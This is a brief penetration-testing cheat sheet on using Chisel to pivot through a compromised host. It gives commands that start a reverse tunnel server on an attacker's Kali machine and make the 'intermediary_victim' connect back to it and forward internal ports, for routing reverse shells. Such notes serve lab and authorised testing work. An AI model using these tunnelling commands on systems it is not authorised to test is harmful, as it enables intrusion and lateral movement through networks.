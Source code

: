 Reverse Pivot
Chisel is like SSH tunneling but everything is reversed. Victim tunnels to hacker.
Victim == client
Hacker == server

https://github.com/richardcurteis/Cheat-Sheets-and-Guides/blob/master/Reverse%20Pivot.png

Set up server to listen on port 8000. Be verbose
kali:~# chisel server -p 8000 -reverse -v

Tell client to connect to server and tell server where to listen
intermediary_victim:~# chisel client $kali_ip:8000 R:127.0.0.1:8001:$target_ip:$target_port

#! Look at fingerprint option to ensure client only connects to intended servers

Port Forward/Local Pivot
If we have a shell on a non-routable mnachine to our attacking machine, set up the port forward on a machine
that can connect to both and forward traffic through
Once set up send reverse shell etc to intermediary machine to be routed through to attacker.

Spin up server on kali
kali:~# chisel server -p 8000 -reverse -v

ink client to server and forward traffic on localhost from 9001 to address foo on port bar
chisel client $kali_ip:8000 intermediary_port:target_ip:target_port
intermediary_victim:~# chisel client $kali_ip:8000 9001:127.0.0.1:8001
